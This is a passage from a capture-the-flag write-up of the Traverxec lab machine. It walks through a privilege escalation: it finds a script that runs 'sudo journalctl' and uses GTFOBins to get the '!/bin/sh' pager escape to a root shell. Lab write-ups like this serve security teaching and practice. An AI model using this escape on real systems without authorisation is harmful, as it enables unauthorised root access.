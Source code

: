 So we got a linux version, and there is the PATH which is highlighted in the output which means that it is a vulnerability we can exploit. Indeed, there are two files in this bin folder. Let's take a look

```sh
david@traverxec:~/bin$ pwd
/home/david/bin
david@traverxec:~/bin$ ls -al
total 16
drwx------ 2 david david 4096 Mar 25 17:53 .
drwx--x--x 6 david david 4096 Mar 25 17:49 ..
-r-------- 1 david david  802 Oct 25 16:26 server-stats.head
-rwx------ 1 david david  363 Oct 25 16:26 server-stats.sh

```
The first folder is just a nice ASCII image

```sh
david@traverxec:~/bin$ cat server-stats.head
                                                                          .----.
                                                              .---------. | == |
   Webserver Statistics and Data                              |.-"""""-.| |----|
         Collection Script                                    ||       || | == |
          (c) David, 2019                                     ||       || |----|
                                                              |'-.....-'| |::::|
                                                              '"")---(""' |___.|
                                                             /:::::::::::\"    "
                                                            /:::=======:::\
                                                        jgs '"""""""""""""'

david@traverxec:~/bin$
```

Not much to see. The second file though is much more interesting

```sh
david@traverxec:~/bin$ cat server-stats.sh
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

It's a bash script which tries to load some stats. However, we can see that it runs `sudo` at the end even though we cannot write this file. Let's look at `GTFO`[https://gtfobins.github.io/](https://gtfobins.github.io/)

```sh
$~/Git/gtfo/gtfo -b journalctl
   _  _           _    __
 _| || |_        | |  / _|
|_  __  _|   __ _| |_| |_ ___
 _| || |_   / _` | __|  _/ _ \
|_  __  _| | (_| | |_| || (_) |
  |_||_|    \__, |\__|_| \___/
             __/ |
            |___/



Code:   journalctl
        !/bin/sh
```